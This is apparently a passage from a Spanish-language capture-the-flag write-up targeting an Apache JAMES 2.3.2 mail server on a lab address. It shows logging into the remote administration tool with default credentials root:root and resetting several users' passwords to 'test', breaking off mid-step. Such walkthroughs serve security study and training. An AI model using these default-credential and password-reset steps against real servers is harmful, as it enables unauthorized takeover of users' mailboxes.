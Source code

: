 ## RSIP Enumeration

Nos `conectamos` usando las `credenciales` por defecto `root:root`

```
# nc -nv 10.129.188.225 4555
(UNKNOWN) [10.129.188.225] 4555 (?) open
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
quit
Bye
```

`Listamos usuarios` y les `cambiamos` la `contraseña` a todos ellos

```
# telnet 10.129.188.225 4555
Trying 10.129.188.225...
Connected to 10.129.188.225.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
listusers
Existing accounts 6
user: james
user: thomas
user: john
user: mindy
user: mailadmin
setpassword james test
Password for james reset
setpassword thomas test
Password for thomas reset
setpassword john test
Password for john reset
setpassword mindy test
```